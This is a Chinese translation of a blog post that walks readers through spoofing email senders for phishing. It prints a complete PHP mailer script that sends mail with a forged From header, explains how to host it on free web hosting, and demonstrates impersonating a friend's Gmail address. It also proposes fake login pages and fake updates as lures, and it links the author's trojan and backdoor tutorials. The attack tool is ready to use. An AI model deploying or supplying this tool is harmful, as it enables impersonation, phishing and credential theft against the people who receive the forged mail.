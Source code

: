# 黑客如何假冒电子邮件 id:电子邮件欺骗和网络钓鱼攻击

> 原文：<https://infosecwriteups.com/how-hackers-impersonate-email-ids-email-spoofing-and-phishing-attacks-a215fcf9341b?source=collection_archive---------0----------------------->

![](img/b7021bb44495a31fda71f6760150d4b8.png)

# 电子邮件欺骗

**电子邮件欺骗**是一种网络攻击，攻击者发送看似由合法/已知个人或实体发送的虚假电子邮件。是执行`phishing attacks`或`spamming`的常用战术。电子邮件的接收者将会看到他们信任的电子邮件和他们熟悉的名字——主要是朋友、同事或他们一起工作的组织),并最终相信该电子邮件并采取上述行动。

在我以前的博客中，我提到过如何**创建木马和后门**。执行时，用户看到的是正常文件，但在后台，邪恶的代码会被执行。发送这些文件可能是电子邮件欺骗的一种应用。

[](/how-i-created-an-undetectable-backdoor-for-windows-ethical-hacking-d26e40a0ec) [## 我如何为 Windows 创建一个不可检测的后门——道德黑客

### 在这篇博客中，我为 windows 机器创建了一个不可检测的后门，秘密地远程访问计算机…

infosecwriteups.com](/how-i-created-an-undetectable-backdoor-for-windows-ethical-hacking-d26e40a0ec) [](/how-i-created-a-trojan-malware-ethical-hacking-82239a6b64c6) [## 我如何创建一个木马恶意软件——道德黑客

### 木马恶意软件，当打开时似乎是一个合法的文件，但在后台，它会运行一些邪恶的过程，如…

infosecwriteups.com](/how-i-created-a-trojan-malware-ethical-hacking-82239a6b64c6) 

# 如何恶搞邮件

第一步依赖于收集的信息和决定你想要欺骗的电子邮件。**电子邮件应该模仿来自目标可以信任的个人或组织的电子邮件。**都是社会工程！

![](img/328d0db51ae6e176df8c9087c667b757.png)

如果是冒充朋友，可以告诉目标人打开图像。如果您冒充某个组织的支持成员或网站管理员，您可以告诉目标使用虚假的登录页面登录，或者告诉目标安装更新。

## 举个例子

假设我想冒充目标人物的朋友，他的名字是`Aakash`，我知道他的电子邮件 id 是`aakash@gmail.com`。我将尝试发送一封假邮件给我的目标，冒充他的电子邮件 id。

这真的很容易。去谷歌搜索`spoof emails online`。

![](img/763f7b15c26defcde8f4ace93e489252.png)

你会发现很多网站提供这项服务。**从这些网站发送电子邮件的问题是，许多这些电子邮件最终会出现在目标人的垃圾邮件目录**中，而不是该人的收件箱中。这样做的原因是因为这些网站是公开的，很多人使用这些网站发送垃圾邮件，所以像谷歌，雅虎等邮件服务器。将从这些服务器收到的电子邮件标记为垃圾邮件。

要绕过这一点，你可以使用自己的虚拟主机方案，或者你可以注册一个免费的虚拟主机方案，用它来发送假邮件。

# 使用虚拟主机方案

这种方法的要求是网站托管提供商应该支持 php 文件，所以静态网站托管是行不通的。你也可以通过虚拟主机提供商使用你自己的域名，但是对于这个博客，我将使用免费的虚拟主机提供商。我将使用[**https://www.000webhost.com/**](https://www.000webhost.com/)。

这是一项付费服务，但我将使用他们的免费计划来写这个博客。转到上面的链接，向下滚动并点击`Free Web Hosting`下的免费注册。

![](img/f9d284906c2ed1013654c2daca750dbb.png)

注册后，点击右上角的创建新网站按钮。

![](img/f58ab114a1e09f0df836d4604149349b.png)

将出现一个弹出窗口，您需要在其中添加您的网站名称和密码。现在记住这两个。

接下来打开[**https://files.000webhost.com/**](https://files.000webhost.com/)**在同一个浏览器中你登录到`webhost`账户。您可能需要也可能不需要输入上述凭据。如果出现提示，请输入上述凭据并继续。应该可以看到一个类似于下图的页面。**

**![](img/3a39c72d22240097497dfe981fe6ae7e.png)**

**双击名为`public_html`的文件夹。将以下脚本保存在名为`send.php`的文件中，并上传到名为`public_html`的文件夹中**

```
<?phpif (isset($_POST["send"])) {$to = $_POST["to"];
 $subject = $_POST["subject"];
 $message = $_POST["message"];
 $from = $_POST["from"];
 $name = $_POST["name"];if (!(filter_var($to, FILTER_VALIDATE_EMAIL) && filter_var($from, FILTER_VALIDATE_EMAIL))) {
  echo "Email address inputs invalid";
   die();
 }$header = "From: " .  $name . " <" . $from . ">\r\nMIME-Version: 1.0\r\nContent-type: text/html\r\n";$retval = mail ($to, $subject, $message, $header);if ($retval) {
  echo "Email sent.";
 } else {
  echo "Email did not send. Error: " . $retval;
 }
} else {
 echo 
 '<html>
  <head>
   <style> 
    input[type=submit] {
      background-color: #4CAF50;
      border: none;
      color: white;
      padding: 14px 32px;
      text-decoration: none;
      margin: 4px 2px;
      cursor: pointer;
      font-size: 16px;
    }
   </style>
  </head>
  <body><h2>Spoof Email</h2><form action="/send.php" method="post" id="emailform">
     <label for="to">To:</label><br>
     <input type="text" id="to" name="to"><br><br>
     <label for="from">From:</label><br>
     <input type="text" id="from" name="from"><br><br>
     <label for="name">Name (optional):</label><br>
     <input type="text" id="name" name="name"><br><br>
     <label for="subject">Subject:</label><br>
     <input type="text" id="subject" name="subject"><br><br>
     <label for="message">Message [HTML is supported]:</label><br>
     <textarea rows="6" cols="50" name="message" form="emailform"></textarea><br><br>
     <input type="hidden" id="send" name="send" value="true">
     <input type="submit" value="Submit">
   </form><p>An e-mail will be sent to the desired target with a spoofed From header when you click Submit.</p></body>
 </html>' ;
}?>
```

**![](img/b460ab3f99c17dadde980d94050c73d9.png)**

****太好了，我们完成了！！！现在是采取行动的时候了。进入`000webhost`主页。你的网站将出现在一张卡片上。点击网址。****

> **如果你喜欢我的博客，你可以点击下面的按钮或者点击下面的链接[https://www.buymeacoffee.com/gouravdhar](https://www.buymeacoffee.com/gouravdhar)给我买杯咖啡**

**![](img/55ac6362347e97c9c39abefc4c2213ae.png)****![](img/bbdfc2c646be0dd651ca1d0702b7d24d.png)**

**对我来说网址是`[https://test-xyz-infinee.000webhostapp.com/](https://test-xyz-infinee.000webhostapp.com/)`。**

**我需要在 url 的末尾添加`send.php`并运行它。
所以对我来说，网址将是`[https://test-xyz-infinee.000webhostapp.com/send.php](https://test-xyz-infinee.000webhostapp.com/send.php)`**

**将出现一个类似于下图所示的表单。**

**![](img/0e6bd8f4b26728cba068765da8b98fe3.png)**

**因为我是冒充的`Aakash`，他的电子邮件 id 是`aakash@gmail.com`，我将相应地填写细节。**

**![](img/d829f3f6e7e0db37ed1cde6a968ae5b7.png)**

**最后点击提交，噗！发送的电子邮件**

**![](img/401ce80afafdef8dc3446f76d4c61e60.png)**

**在检查我的电子邮件(target_email)时，我实际上收到了一封来自电子邮件地址`aakash@gmail.com`的电子邮件。我还在我的 iPhone 上收到了一个通知，它看起来很有说服力和真实性！**

**![](img/17fa2502d3795d4b39ad077bbff1876d.png)****![](img/a8aaefdfb8f50ab20d40a97d5c63dc3c.png)**

**附上电子邮件打开后在浏览器上的截图。**

**![](img/abf90244c97702cd7037ba1ba778a23e.png)****![](img/7a7af420fadc6495a3639e4459e9628a.png)****![](img/3512b30c4c8a314a7846dceedb9ad1c0.png)**

**名称显示正确。甚至电子邮件 id 也显示正确。**

**区分这不是原始邮件而是网络钓鱼邮件的唯一方法是在`via`之后写的文本，这也只有在电子邮件在网络浏览器中查看时才有效。**

> **这是一个探索我们博客平台[](https://www.thegeekyminds.com/)**的邀请。一个让您了解软件开发和技术领域最新发展的一站式平台。我们在 [**的极客头脑**](https://www.thegeekyminds.com/) 旨在写一些你实际上可以用来提高工作效率和充实你的职业生活的内容。****
> 
> ****邀请您在[**https://thegeekyminds.com**](https://thegeekyminds.com/)通过我们的平台。并订阅我们的时事通讯，以便在我们每次发布新帖子时收到电子邮件。我们承诺不会向您的收件箱发送垃圾邮件。点击下面的按钮订阅我们的时事通讯****

****[![](img/eec8beec45924704f52b518aeb1a3e7b.png)](https://forms.wix.com/4444cf13-7653-460d-9b32-f2e4e65544d1:c2184260-1ab5-4c6a-a37d-53de0778afa0)****